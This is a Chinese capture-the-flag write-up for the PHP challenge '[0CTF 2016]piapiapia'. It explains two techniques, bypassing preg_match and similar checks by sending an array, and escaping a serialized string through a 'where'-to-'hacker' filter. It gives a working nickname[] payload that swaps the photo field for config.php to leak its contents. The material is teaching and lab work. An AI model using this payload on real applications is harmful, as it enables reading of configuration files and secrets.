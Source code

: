 # [0CTF 2016]piapiapia

## 前言

这道题主要考两个知识点：

* **数组绕过正则**
  * **preg_match(pattern,Array()) = false**
  * md5(Array()) = null
  * sha1(Array()) = null
  * ereg(pattern,Array()) =null
  * strcmp(Array(), “abc”) =null
  * strpos(Array(),“abc”) = null
  * strlen(Array()) = null

* **改变序列化字符串，导致反序列化漏洞**

  改变序列化之后的字符串，使反序列化时成功反序列化并改变数组值。

  举个例子：

  * ``` php
    $profile = 'a:2:{s:8:"nickname";a:1:{i:0;s:204:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:13:"lurenxiao.jpg";}';
    var_dump(unserialize($profile));
    ```

  * 结果：

    array(2) {
      ["nickname"]=>
      array(1) {
        [0]=>
        string(204) "wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}"
      }
      ["photo"]=>
      string(13) "lurenxiao.jpg"
    }

  * 当我们把所有的where替换成hacker

  * ``` php
    $profile = 'a:2:{s:8:"nickname";a:1:{i:0;s:204:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";}s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:13:"lurenxiao.jpg";}';
    var_dump(unserialize($profile));
    ```

  * 结果：

    array(2) {
      ["nickname"]=>
      array(1) {
        [0]=>
        string(204) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker"
      }
      ["photo"]=>
      string(10) "config.php"
    }

  我们可以看到photo的值从lurenxiao.jpg变成了config.php。

  要了解这个首先了解序列化字符串的结构：

  * `'a:2:{s:8:"nickname";a:1:{i:0;s:204:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";}s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:13:"lurenxiao.jpg";}'`
  * 上边这个序列化第一个a表示数组，2表示有两个值
  * 之后跟着key和value。

  在`s:a:"*******"` 反序列化时，不管`s:a:"`​之后是什么（包括双引号和单引号），都会数a个字符作为这个反序列化的结果。

  在字符串从前向后的反序列化过程中，若在字符串的某个位置成功反序列化，那么后续的字符串都会被抛弃。

  如何看不懂可以看这位大佬的writeup https://www.jianshu.com/p/3b44e72444c1，讲得比较详细。

## 解题过程

用扫描器扫描网站，dirsearch和御剑可以扫出www.zip

![](D:\CTF\ctf\web\buuctf\[0CTF 2016]piapiapia\截图\3.png)

我们在config.php可以看到flag

![](D:\CTF\ctf\web\buuctf\[0CTF 2016]piapiapia\截图\4.png)

看来是要我们获取config.php，审查源码，Seay可以给到一个提示（第三行

![](D:\CTF\ctf\web\buuctf\[0CTF 2016]piapiapia\截图\2.png)

​    \$photo = base64\_encode(file\_get\_contents(​\$profile['photo']));

而配置由update.php上传，并进行序列化

![](D:\CTF\ctf\web\buuctf\[0CTF 2016]piapiapia\截图\5.png)

看update_profile这个函数，filter之后上传

![](D:\CTF\ctf\web\buuctf\[0CTF 2016]piapiapia\截图\6.png)

看filter，发现'select', 'insert', 'update', 'delete', "where"替换为"hacker"，只有where从5个字符变成6个字符多一个字符，这个时候想到可以用上边 **改变序列化字符串，导致反序列化漏洞** 。在nickname中插入where字符，在filter的时候会把where替换为hacker，导致部分字符逃逸。逃逸出的字符为设置photo为config.php的字符。

![image-20191212185753148](D:\CTF\ctf\web\buuctf\[0CTF 2016]piapiapia\截图\10.png)

但是事情还没有那么简单，题目在我们上传nickname的时候给了一些限制

![image-20191212190519129](D:\CTF\ctf\web\buuctf\[0CTF 2016]piapiapia\截图\11.png)

限制了nickname的长度，怎么办呢？这个时候就用到了 **数组绕过正则** 这个知识点让$_POST['nickname']为一个数组，就可以让这两个都为非。

## 结果

在update.php上传时，

* 把nickname改为nickname[]
* 值为`wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}`

![](D:\CTF\ctf\web\buuctf\[0CTF 2016]piapiapia\截图\1.png)

之后访问profile.php

![](D:\CTF\ctf\web\buuctf\[0CTF 2016]piapiapia\截图\8.png)

把这一段base64解密可得flag

![](D:\CTF\ctf\web\buuctf\[0CTF 2016]piapiapia\截图\9.png)


